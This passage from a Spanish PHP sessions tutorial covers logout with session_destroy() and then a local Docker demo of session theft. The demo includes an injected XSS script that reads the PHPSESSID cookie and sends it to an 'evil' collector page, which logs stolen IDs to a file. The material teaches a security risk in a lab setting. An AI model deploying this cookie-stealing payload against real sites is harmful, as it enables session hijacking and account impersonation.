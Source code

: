 

Para poder desconectar a un usuario, y así desasociarlo de su ID de Sesión, se utiliza el método `session_destroy()`. Y lo podemos realizar creando un nuevo archivo llamado `logout.php`.

```php
<?php
session_start();
session_unset();
session_destroy();
//redirigimos a login.php
header('Location: login.php');
```







## Robo de sesión

Como ya sabemos, el ID de sesión es único. Por lo cual, si alguien consigue robártelo, puede suplantar tu identidad y realizar acciones con tu cuenta como si las realizases tú. Esto lo veremos ahora con un caso práctico de robo de sesión.



Por un lado, comenzaremos creando una página llamada `robo-de-sesion.php`, que almacenaremos en un contenedor **Docker**, que hará la función de servidor web "**evil**" y escuchará en el puerto **8080**, por así decirlo. Esta página contendrá lo siguiente:

```php
<?php
$session_robada = $_GET['session_robada'] ?? "";
$session_robada .= "\n";
$fichero = 'sessions.txt';
// Abre el fichero para obtener el contenido existente
$actual = file_get_contents($fichero);
// Escribe el contenido al fichero
file_put_contents($fichero, $session_robada, FILE_APPEND);
```



Y por otro lado, crearemos una segunda página llamada `hackeada.php`, en otro contenedor **Docker**,  que realizará la función de servidor web "**seguro**" y escuchará en el puerto **8086**. Esta página contendrá lo siguiente:

```php+HTML
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>
    Esta es una página que ha sido hackeada mediante XSS.
Al acceder, envía la cookie de sesión al sitio http://evil.local
<script>
var c = document.cookie.replace(/(?:(?:^|.*;\s*)PHPSESSID\s*\=\s*([^;]*).*$)|^.*$/, "$1")
var myImage = new Image(1,1);
myImage.src = "http://127.0.0.1:8080/robo-de-sesion.php?session_robada=" + c;
</script>

</body>
</html>
```
